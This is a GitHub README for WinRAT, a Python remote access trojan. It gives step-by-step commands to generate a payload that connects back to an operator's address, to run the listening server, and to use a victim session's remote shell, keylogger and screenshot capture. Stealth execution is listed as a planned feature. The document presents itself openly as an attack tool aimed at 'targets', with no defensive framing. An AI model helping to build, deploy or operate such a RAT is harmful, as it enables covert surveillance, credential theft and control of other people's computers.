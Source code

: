 <h1 align="center"> 
    <img src="https://1.bp.blogspot.com/-bIFInkmTIjc/X9HamnJryDI/AAAAAAAAAvk/m1Gd-zUWTm82285JLa_1TgIpSPYt6dKJACLcBGAsYHQ/s2896/WinRAT.png" alt="WinRAT" /> <br>    
    WinRAT
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/muneebwanee/WinRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>

<h6 align="center"><img src="https://1.bp.blogspot.com/-ileKo-193NE/X9HeHFHI3yI/AAAAAAAAAwA/x0J3HWIh7y4wRLrswJsX34Lt09oGEVRVwCLcBGAsYHQ/s2195/WinRAT.png"></h6>

## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding. </li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Parrot OS** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/muneebwanee/WinRAT.git
$ cd WinRAT/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://1.bp.blogspot.com/-MPT_vanIA-0/X9HfzBocWyI/AAAAAAAAAwM/VsgW76tPWeMbWqOGECEC68FqJpzimUG-ACLcBGAsYHQ/s2048/WinRAT.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 winrat.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://1.bp.blogspot.com/--CU93TSA5hQ/X9HhV5axm6I/AAAAAAAAAwo/eV1W_MOM2_g9lwWBI44GPMoBYJRgHsOvgCLcBGAsYHQ/s2186/WinRAT.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```


### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support
Twitter: <a href="//twitter.com/muneebwanee">@muneebwanee</a><br>
Instagram: <a href="//instagram.com/muneebwanee">@muneebwanee</a><br>
Facebook: <a href="//facebook.com/muneebwane">@muneebwanee</a><br>
LinkedIn: <a href="//linkedin.com/in/muneebwanee">@muneebwanee</a><br>
GitHub: <a href="//github.com/muneebwanee">@muneebwanee</a><br>
BuyMeACoffee: <a href="//buymeacoffee.com/muneebwanee">@muneebwanee</a><br>
